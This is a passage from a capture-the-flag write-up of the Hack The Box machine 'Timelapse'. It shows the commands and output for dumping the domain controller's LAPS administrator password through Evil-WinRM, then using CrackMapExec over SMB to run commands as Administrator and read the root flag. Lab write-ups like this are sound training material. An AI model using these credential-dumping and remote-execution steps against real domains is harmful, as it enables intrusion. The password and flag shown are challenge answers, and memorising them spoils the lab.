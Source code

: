 Dump laps from `DC01`

```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-DomainObject DC01 | select name,"ms-mcs-AdmPwd"

name ms-mcs-admpwd
---- -------------
DC01 I07M052Ic-/96-5#lt2r+F@K
DC01
```


## Login as Administrator

Root flag is not in Administrator's Desktop

```bash
┌──(kali㉿kali)-[~/htb/Timelapse]
└─$ cme smb timelapse.htb -u 'Administrator' -p 'I07M052Ic-/96-5#lt2r+F@K' -x 'type C:\Users\Administrator\Desktop\root.txt'
SMB         DC01.timelapse.htb 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         DC01.timelapse.htb 445    DC01             [+] timelapse.htb\Administrator:I07M052Ic-/96-5#lt2r+F@K (Pwn3d!)
SMB         DC01.timelapse.htb 445    DC01             Node ADMINISTRATOR@TIMELAPSE.HTB successfully set as owned in BloodHound
SMB         DC01.timelapse.htb 445    DC01             [+] Executed command
SMB         DC01.timelapse.htb 445    DC01             The system cannot find the file specified.
```

Find the Flag

```bash
┌──(kali㉿kali)-[~/htb/Timelapse]
└─$ cme smb timelapse.htb -u 'Administrator' -p 'I07M052Ic-/96-5#lt2r+F@K' -x 'cd C:\Users && dir /s root.txt'
SMB         DC01.timelapse.htb 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         DC01.timelapse.htb 445    DC01             [+] timelapse.htb\Administrator:I07M052Ic-/96-5#lt2r+F@K (Pwn3d!)
SMB         DC01.timelapse.htb 445    DC01             [+] Executed command
SMB         DC01.timelapse.htb 445    DC01             Volume in drive C has no label.
SMB         DC01.timelapse.htb 445    DC01             Volume Serial Number is 22CC-AE66
SMB         DC01.timelapse.htb 445    DC01
SMB         DC01.timelapse.htb 445    DC01             Directory of C:\Users\TRX\Desktop
SMB         DC01.timelapse.htb 445    DC01
SMB         DC01.timelapse.htb 445    DC01             07/21/2023  07:02 AM                34 root.txt
SMB         DC01.timelapse.htb 445    DC01             1 File(s)             34 bytes
SMB         DC01.timelapse.htb 445    DC01
SMB         DC01.timelapse.htb 445    DC01             Total Files Listed:
SMB         DC01.timelapse.htb 445    DC01             1 File(s)             34 bytes
SMB         DC01.timelapse.htb 445    DC01             0 Dir(s)  10,008,154,112 bytes free

┌──(kali㉿kali)-[~/htb/Timelapse]
└─$ cme smb timelapse.htb -u 'Administrator' -p 'I07M052Ic-/96-5#lt2r+F@K' -x 'type C:\Users\TRX\Desktop\root.txt'
SMB         DC01.timelapse.htb 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         DC01.timelapse.htb 445    DC01             [+] timelapse.htb\Administrator:I07M052Ic-/96-5#lt2r+F@K (Pwn3d!)
SMB         DC01.timelapse.htb 445    DC01             [+] Executed command
SMB         DC01.timelapse.htb 445    DC01             46af9877edd8e250a6ca1a95786f7d7e
```
